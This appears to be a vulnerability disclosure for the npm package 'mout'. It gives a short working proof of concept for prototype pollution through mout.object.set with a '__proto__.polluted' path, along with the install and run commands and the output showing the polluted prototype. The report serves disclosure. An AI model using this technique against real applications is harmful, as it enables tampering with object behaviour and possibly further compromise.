 # Description

`mout` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var mout = require("mout")
var obj = {}
console.log("Before : " + {}.polluted);
mout.object.set(obj,'__proto__.polluted','Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i mout # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
